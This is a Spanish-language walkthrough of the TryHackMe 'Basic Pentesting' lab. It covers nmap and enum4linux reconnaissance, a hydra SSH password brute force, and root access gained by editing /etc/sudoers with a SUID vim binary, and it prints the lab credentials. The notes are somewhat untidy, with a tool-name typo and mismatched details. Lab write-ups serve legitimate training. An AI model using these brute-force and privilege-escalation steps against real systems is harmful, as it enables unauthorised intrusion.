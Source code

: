 # Basic Pentesting

Plataforma: TryHackMe
OS: Linux
Level: Easy
Status: Done
Complete: Yes
EJPT: yes
Created time: 15 de diciembre de 2024 19:15
IP: 10.10.132.218

# Reconocimiento (Recon)

Escaneo de Puertos

- [ ]  **Nmap inicial**:

```bash
sudo nmap -p- --open -T5 -sS --min-rate 5000 -vvv -n -Pn <%IP%> -oG targeted

```

**Puertos Abiertos**:
**[Puertos ]**: 22,80,139,445,8009,8080

![](<writeup-ctfs/tryhackme/imagenes/image 6.png>)

- [ ]  **Nmap servicios**:

```bash
sudo nmap -sCV -p1,2,3 <%IP%> -oN nmap
sudo nmap -v -sV -O --script="safe and vuln" -T4 -n -Pn -p135,445 -oA nmap <%IP%>
```

![image.png](imagenes/image 7.png)

- [ ]  **Nmap webscan**

```bash
sudo nmap -p80 --script=http-enum 10.10.132.218 -oN webscan

```

Potentially interesting: /development/

- [ ]  **Enum4linux**:

```bash
emum4linux -a <IP>

```

User: **kay**
User: **jan**

# Análisis de Vulnerabilidades

**Vulnerabilidad Potencial**:

/developer/

![image.png](imagenes/image 8.png)

**Vulnerabilidad Potencial**:
Probamos con hydra a los usuarios kay y jan

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.132.218 ssh

```

![image.png](imagenes/image 9.png)

User: **jan**
Pass: **armando**

Conectamos por SSH

# Explotación (Exploit)

Ejecución del Exploit

- **Exploit Utilizado**:
    
    ```bash
    enum4linux -a IP
    ```
    

Resultados**:  Usuarios con los que probar fuerza bruta

# Escalada de Privilegios

- **Enumeración de Privilegios**:
    
    ```bash
    find / -perm -u=s -type f 2>/dev/null
    ```
    

![image.png](imagenes/image 10.png)

- **Método de Escalada**: Editamos un fichero privilegiado con un binario SUID

```bash
    /usr/bin/vim.basic
    /usr/bin/vim.basic /etc/sudoers    
```

![image.png](imagenes/image 11.png)

```bash
sudo su
root
```

# Post-Explotación

Obtención de User.txt

- **Localización**: Obtenido con hydra
- Contenido :
    - User: jan
    - Pass: Armando

### 4.2 Obtención de Root.txt

- **Localización**:
    
    ```bash
    /home/kay/pass.bak
    ```
    

- **Contenido**:
    
    ```bash
    heresareallystrongpasswordthatfollowsthepasswordpolicy$$
    ```
